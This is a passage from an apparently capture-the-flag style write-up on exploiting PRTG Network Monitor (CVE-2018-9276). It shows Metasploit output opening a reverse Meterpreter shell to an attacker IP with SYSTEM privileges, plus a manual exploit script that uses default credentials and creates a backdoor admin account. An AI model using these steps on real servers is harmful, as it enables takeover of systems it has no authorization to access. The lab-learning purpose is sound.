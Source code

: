 ```
   --  ----
   0   Automatic Targeting


msf6 exploit(windows/http/prtg_authenticated_rce) > exploit 

[*] Started reverse TCP handler on 10.10.16.173:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175174 bytes) to 10.10.10.152
[*] Meterpreter session 1 opened (10.10.16.173:4444 -> 10.10.10.152:62967) at 2021-06-11 09:59:28 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
# Manual Exploitation w/o Metasploit
Trying to run the script downloaded from the site or copied from the exploitDB directory on the Kali system throws the below error.

```
$ ./exploit.sh
zsh: ./exploit.sh: bad interpreter: /bin/bash^M: no such file or directory
```
This error is simply due to the file format. Changing the file from DOS to Unix format resolves the error.

```
$ dos2unix exploit.sh                                                                                                                                        127 ⨯ 2 ⚙
dos2unix: converting file exploit.sh to Unix format...
$ ./exploit.sh
[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 
 EXAMPLE USAGE: ./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1" 
```
To run the script we need the cookies from the website after logging in. 
